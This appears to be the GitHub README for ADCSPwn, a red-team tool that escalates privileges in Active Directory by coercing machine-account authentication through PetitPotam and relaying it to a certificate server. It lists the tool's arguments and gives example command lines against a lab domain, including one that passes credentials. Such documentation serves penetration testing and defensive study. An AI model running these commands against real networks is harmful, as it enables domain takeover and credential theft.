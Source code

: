 # ADCSPwn

A tool to escalate privileges in an active directory network by coercing authenticate from machine accounts (Petitpotam) and relaying to the certificate service.

## Usage

Run `ADCSPwn` on your target network.

```
Author: @_batsec_ - MDSec ActiveBreach
Contributor: @Flangvik -  TrustedSec

adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]

Required arguments:
adcs            -       This is the address of the AD CS server which authentication will be relayed to.

Optional arguments:
port            -       The port ADCSPwn will listen on.
remote          -       Remote machine to trigger authentication from.
username        -       Username for non-domain context.
password        -       Password for non-domain context.
dc              -       Domain controller to query for Certificate Templates (LDAP).
unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
output          -       Output path to store base64 generated crt.

Example usage:
adcspwn.exe --adcs cs.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --dc dc.pwnlab.local --unc \\WIN-WORK01.pwnlab.local\made\up\share
```

## Credits

- [@harmj0y](https://twitter.com/harmj0y) & [@tifkin_](https://twitter.com/tifkin_) for their [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) detailing this issue.
- [@topotam77](https://twitter.com/topotam77) for showing how `EfsRpcOpenFileRaw` can be abused.
